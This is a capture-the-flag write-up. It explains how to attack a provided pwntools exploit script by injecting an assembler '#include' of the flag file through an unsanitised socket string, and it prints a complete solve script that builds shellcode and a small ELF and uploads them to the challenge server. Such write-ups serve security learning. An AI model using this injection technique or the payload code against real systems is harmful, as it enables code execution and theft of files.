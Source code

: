 # Revenge of Pwn
_Category: misc, pwn_

## Description
> Have you ever thought those challenges you pwned may retaliate someday?
> `nc 3.115.58.219 9427`
> [revenge_of_pwn-255196bb99d75512732a4109f154103b4bc428e6e29e2cdcc69e44aee67ea75f.tar.gz](revenge_of_pwn-255196bb99d75512732a4109f154103b4bc428e6e29e2cdcc69e44aee67ea75f.tar.gz)

## README.md (from the challenge files)

`exploit.py` is able to exploit `chal/vuln`.

```
exploit.py --- pwn --->   chal/vuln
                       127.0.0.1:1337
```

Now you have the chance to *replace* the binary listening on 1337 port,
and you need to pwn the script who is pwning your binary!

```
exploit.py --- (will try to) pwn --->  <your uploaded file>
    ^                                     127.0.0.1:1337
    |
    |
you need to pwn this
```

The flag is located at `/home/deploy/flag`, which is readable by `exploit.py`.

## Solution

We need to coax `exploit.py` into giving us a copy of the flag, which it can read. To get started, we need to understand the `exploit.py` script itself.
Looking through the source, there are only a few places where we get a chance to specify user input. They are as follows:
```py
stk = int(r.recvline(), 16)
log.info('stk @ ' + hex(stk))
# some time later
shellcraft.read('rbp', stk + 48, 100) +
shellcraft.mov('rax', stk + 48) + 'jmp rax'
r.send(b'@' * 40 + p64(stk+48) + stage1)
```
This cannot be used in any meaningful way for us because it is cast to an integer before being used in shellcode. Even if we do supply a "malicious" value, it will only result in our program being sent bogus shellcode. Another option is as follows:
```py
d = str(s.recvuntil('@')[:-1], 'ascii')
log.info('sock fd @ ' + fd)
stage2 = asm(shellcraft.stager(fd, 0x4000))
```
This works much better for us, because we have an unlimited length string that is placed directly into the shellcode before it is assembled. It is not obvious from the function, but `shellcraft.stager` will simply concatinate the value for `fd` into assembly.

Now all we need to do is find something we can put in the assembly that when assembled, will let us see the flag. The simpliest option here is just to `#include flag.txt`, though there are some other options that result in the flag being sent back to our program we upload instead.

The final hurdle is the size limit on the ELF we upload:
```
ELF size? (MAX: 6144)
9999
¯\_(ツ)_/¯
```

The easiest option here is to just use shellcraft to generate a very small ELF with the payload we require.

Putting it all together, we end up with:
```py
from pwn import *
context.arch = 'amd64'

stk = "stack address @ 0x1\n"
evil_str = "1\n#include \"/home/deploy/flag\"@"

elf = make_elf(
    asm(
        shellcraft.pushstr(stk) +
        shellcraft.write(1, 'rsp', len(stk)) +
        """
        MOV    rcx, 5000000000
L1:
DEC    rcx
JNZ    L1
        """ +
        shellcraft.amd64.connect('127.0.0.1', 31337) +
        shellcraft.pushstr(evil_str) +
        shellcraft.write('rbp', 'rsp', len(evil_str)) +
        shellcraft.read('rbp', 'rsp', 10000) +
        shellcraft.write('rbp', 'rsp', 10000)
    )
)

io=remote("3.115.58.219", 9427)

io.recvuntil('ELF size? (MAX: 6144)')
io.sendline(str(len(elf)))
io.send(elf)
io.stream()
```

The only extra code in there is a busy loop, which helps make sure we don't try to connect to the stage2 handler too early.
